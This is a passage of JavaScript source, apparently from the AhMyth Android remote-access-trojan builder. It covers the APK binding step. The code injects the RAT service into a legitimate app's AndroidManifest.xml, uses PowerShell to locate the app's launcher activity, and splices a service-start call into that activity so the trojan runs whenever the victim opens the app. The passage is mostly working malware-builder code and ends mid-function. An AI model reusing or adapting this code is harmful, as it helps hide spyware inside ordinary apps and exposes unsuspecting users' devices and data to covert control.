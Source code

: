 ```js
        var permManifest = $appCtrl.copyPermissions(data);
        var newManifest = permManifest.substring(0, permManifest.indexOf("</application>")) + ahmythService + permManifest.substring(permManifest.indexOf("</application>"));

        fs.writeFile(path.join(apkFolder, "AndroidManifest.xml"), newManifest, 'utf8', (error) => {
            if (error) {
                $appCtrl.Log('Modifying AndroidManifest.xml Failed!', CONSTANTS.logStatus.FAIL);
                $appCtrl.Log();
                return;
            }

            if (process.platform === 'win32') {
                $appCtrl.Log("Locating Launcher Activity...")
                $appCtrl.Log();
                exec('set-location ' + '"' + apkFolder + '"' + ';' + ' gci -path ' + '"' 
                + apkFolder + '"' + ' -recurse -filter ' + '"' + launcherActivity + '"' 
                + ' -file | resolve-path -relative', { 'shell':'powershell.exe' }, (error, stdout, stderr) => {
                var launcherPath = stdout.substring(stdout.indexOf(".\\") + 2).trim("\n");
                if (error !== null) {
                    $appCtrl.Log("Unable to Locate the Launcher Activity...", CONSTANTS.logStatus.FAIL);
                    $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                    $appCtrl.Log();
                    return;
                } else if (launcherPath) {
                    $appCtrl.Log("Launcher Activity Found: " + launcherPath, CONSTANTS.logStatus.SUCCESS);
                    $appCtrl.Log();
                }

                $appCtrl.Log("Fetching Launcher Activity...")
		$appCtrl.Log();
                fs.readFile(path.join(apkFolder, launcherPath), 'utf8', (error, data) => {
                    if (error) {
                        $appCtrl.Log('Reading Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                        $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
			$appCtrl.Log();
                        return;

                        }

                        var regex = /\/(\S+)\./;
                        var str = (apkFolder, launcherPath);
                        var m = str.replace(/\\/g, "/").match(regex);

                        var startService = CONSTANTS.serviceSrc + apkFolder.split(apkFolder).join((m[1])) + CONSTANTS.serviceStart;

                        var key = CONSTANTS.orgAppKey;
                        $appCtrl.Log("Modifiying Launcher Activity...");
                        $appCtrl.Log();

                        var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
                        fs.writeFile(path.join(apkFolder, launcherPath), output, 'utf8', (error) => {
                            if (error) {
                                $appCtrl.Log('Modifying Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
```